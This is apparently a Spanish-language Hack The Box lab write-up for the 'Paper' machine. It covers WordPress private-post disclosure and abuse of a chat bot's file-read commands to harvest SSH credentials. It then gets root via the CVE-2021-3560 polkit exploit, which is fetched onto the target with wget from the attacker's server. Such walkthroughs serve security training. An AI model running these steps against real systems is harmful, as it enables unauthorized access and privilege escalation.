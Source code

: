 ```yaml
---
date: 2022-06-9 23:48:05
layout: post
title: Paper - Hack the Box
subtitle: 
description: >-
    En esta ocasión tenemos una máquina Linux de dificultad fácil que requiere de un escaneo básico y enumeración para obtener un punto de apoyo en la máquina. La escalada de privilegios es un proceso relativamente simple y requirió usar la escalada de privilegios de Linux a través de la explotación de la vulnerabilidad CVE-2021–3560.
image: /assets/images/HTB/Paper-Hackthebox/paper.webp
optimized_image: /assets/images/HTB/Paper-Hackthebox/paper.webp
category: blog
tags:
  - Linux
  - blog
  - HackTheBox
author: elc4br4
paginate: true
---
```


![](/assets/images/HTB/Paper-Hackthebox/rating-paper.png)

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)

Como siempre, comenzamos lanzando nmap para descubrir puertos abiertos.

`nmap -p- -n -Pn --min-rate 5000 10.10.11.143 -sCV --open`

![](/assets/images/HTB/Paper-Hackthebox/nmap.png)

Como vemos tenemos los puertos 80, 443 y 22

En el puerto 80 encuentro lo siguiente:

![](/assets/images/HTB/Paper-Hackthebox/web1.png)

En la página principal no hay nada interesante, lanzo gobuster y no encuentro nada relevante, ninguna ruta ni archivos con extensión…

Decido lanzar nikto para un escaneo más detallado y potente y encuentro esto:

`` nikto -h 10.10.11.143 ``

![](/assets/images/HTB/Paper-Hackthebox/nikto.png)

Tenemos un vhost que añado a al archivo hosts de mi máquina.

Accedemos desde el navegador al vhost y encontramos una web diferente, en concreto, un Wordpress.

![](/assets/images/HTB/Paper-Hackthebox/web2.png)

Cuando hablamos de Wordpress… Wpscan es la clave!!!

Lanzo wpscan bajo el siguiente comando

`` wpscan --enumerate --url office.paper ``

![](/assets/images/HTB/Paper-Hackthebox/wpscan.png)

Y además de los usuarios encuentro la versión de Wordpress

![](/assets/images/HTB/Paper-Hackthebox/wpscan2.png)

Lo siguiente que hago al saber la versión es buscar posibles vulnerabilidades en la versión Wordpress 5.2.3

![](/assets/images/HTB/Paper-Hackthebox/searchsploit.png)

Encuentro una vulnerabilidad que permite leer Posts Privados sin necesidad de estar autenticados en Wordpress.

![](/assets/images/HTB/Paper-Hackthebox/exploitdb.png)

Usando ciertos parámetros en la url podemos descubrir posts privados.

`` http://office.paper/?static=1&order=YYYYMMDD ``


![](/assets/images/HTB/Paper-Hackthebox/web3.png)


Donde encontramos un subdominio y una url.

Lo añadimos al archivo hosts, accedemos a la url y encontramos un formulario de registro.

![](/assets/images/HTB/Paper-Hackthebox/web4.png)


Me registro y accedo con las credenciales creadas.

![](/assets/images/HTB/Paper-Hackthebox/web5.png)


Nos encontramos con una especie de chat, buscando encuentro un grupo llamado #general al que accedo.

![](/assets/images/HTB/Paper-Hackthebox/web6.png)


En el cual hay varios usuarios y lo que parece ser un bot (recyclops).

Leyendo los mensajes del grupo, encuentro varios mensajes enviados por el bot (recyclops) que dicen lo siguiente:


![](/assets/images/HTB/Paper-Hackthebox/web7.png)

![](/assets/images/HTB/Paper-Hackthebox/web8.png)

Este bot nos permite ejecutar varios comandos:

``` code
    list → listar archivos

    file → leer archivos
```

Asique procedo a probar los comandos y a ver que respuesta me devuelve:

![](/assets/images/HTB/Paper-Hackthebox/web9.png)

Voy listando poco a poco hasta que encuentro lo siguiente:

![](/assets/images/HTB/Paper-Hackthebox/web10.png)


Voy leyendo diferentes archivos hasta que encuentro dentro de la ruta ../hubot un archivo .env

![](/assets/images/HTB/Paper-Hackthebox/web11.png)

Y encuentro credenciales que podrían ser válidas para conectarnos por ssh

Al probarlas, no funciona … Pero me fijé en que el propietario de los archivos del servidor es dwight.

Pruebo con dwight y consigo acceder, conexión ssh exitosa.

`` ssh dwight@10.10.11.143 `` 

Una vez estamos dentro podremos leer la flag user.txt

A continuación me dispongo a escalar privilegios y lanzo el famoso **linpeas.sh** para buscar posibles formas de escalar.

Y me encuentro con una posible vulnerabilidad

![](/assets/images/HTB/Paper-Hackthebox/cve.png)

  **CVE-2021–3560** permite que un atacante local sin privilegios obtenga privilegios de root mediante el uso de polkit

# REFERENCIAS

    https://github.com/Almorabea/Polkit-exploit

    https://www.hackplayers.com/2021/06/escalado-de-privilegios-mediante-polkit.html

Encuentro el exploit aquí, lo descargo y mediante el uso de un servidor de python3 me lo descargo desde la máquina.


Máquina atacante

`` python3 -m http.server 8080 ``


Máquina Víctima (ssh)

`` wget http://<ip-tun0>:<8080>/exploitname.py ``

![](/assets/images/HTB/Paper-Hackthebox/exploit.png)


Le asigno permisos, lo ejecuto y listo, somos root y podemos leer la flag root.txt.

![](/assets/images/HTB/Paper-Hackthebox/exploit2.png)


![](/assets/images/HTB/Paper-Hackthebox/exploit3.png)


![](/assets/images/HTB/Paper-Hackthebox/root.png)


